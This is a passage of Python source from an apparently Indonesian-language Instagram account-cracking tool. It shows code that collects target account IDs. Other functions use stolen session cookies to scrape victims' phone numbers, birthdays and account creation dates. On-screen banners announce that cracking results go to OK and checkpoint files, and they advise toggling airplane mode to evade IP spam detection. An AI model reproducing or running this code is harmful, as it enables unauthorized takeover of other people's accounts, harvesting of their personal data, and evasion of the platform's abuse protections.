 							wr = random.choice(['\x1b[1;91m', '\x1b[1;92m', '\x1b[1;93m', '\x1b[1;94m', '\x1b[1;95m', '\x1b[1;96m', '\x1b[1;97m', '\x1b[0m'])
							sys.stdout.write(f"\r{P}[{B}*{P}] sedang mengumpulkan {wr}{len(internal)} {P}id...")
							sys.stdout.flush()
							time.sleep(0.0002)
							try:
								maxid=x_jason['next_max_id']
							except:
								break
						except:
							if 'challenge' in x.text:
								break
							else:
								continue
				print("\r")
			except Exception as e:
				print(f'{P}[{M}!{P}] username tidak tersedia')
			return internal
		else:lisensi()

	def ingfoocu(self, cookie):
		with requests.Session() as ses:
		     try:
		         link = ses.get(f"https://i.instagram.com/api/v1/accounts/edit/web_form_data/", headers={"user-agent":USN},cookies={"cookie":cookie}).json()["form_data"]
		         nomor = link["phone_number"].replace("-", "").replace(" ", "")
		         tggl = link["birthday"]
		         year, month, day = tggl.split("-")
		         month = bulan_ttl[month]
		         tanggal = (f"{day} {month} {year}")
		     except:
		         nomor = "-"
		         tanggal = "-"
		     return nomor, tanggal
	
	def AdityaCreate(self, cookie):
		with requests.Session() as ses:
		     try:
		         b = ses.get("https://www.instagram.com/accounts/access_tool/", cookies={"cookie":cookie})
		         soup = parser(b.text,'html.parser')
		         body = soup.find("body")
		         script = body.find("script", text=lambda t: t.startswith("window._sharedData"))
		         script_json = script.string.split(" = ", 1)[1].rstrip(";")
		         script_json = json.loads(script_json)
		         i = script_json["entry_data"]['SettingsPages']
		         regax = re.findall('\d+',str(i))
		         tahun = datetime.fromtimestamp(int(regax[0])).strftime('%d %B %Y')
		     except:
		         tahun = "-"
		     return tahun
	
	def ingfo(self):
		urut = []
		prints(Panel(f"{P2}[ {H2}hasil crack akan di simpan di dalam folder results {P2}]",width=80,padding=(0,11),style=f"#FFFFFF"))
		urut.append(Panel(f"{P2}result {H2}OK-{day}.txt",width=39,padding=(0,5),style=f"#FFFFFF"))
		urut.append(Panel(f"{P2}result {K2}CP-{day}.txt[/]",width=39,padding=(0,5),style=f"#FFFFFF"))
		self.tol.print(Columns(urut))
		prints(Panel(f"{H2}craking sedang di mulai, ketik ctrl+z di keyboard anda untuk berhenti\n\n{N2}    hidupkan mode pesawat 5 detik jika terdeteksi adanya spam ip",width=80,padding=(0,3),style=f"#FFFFFF"))
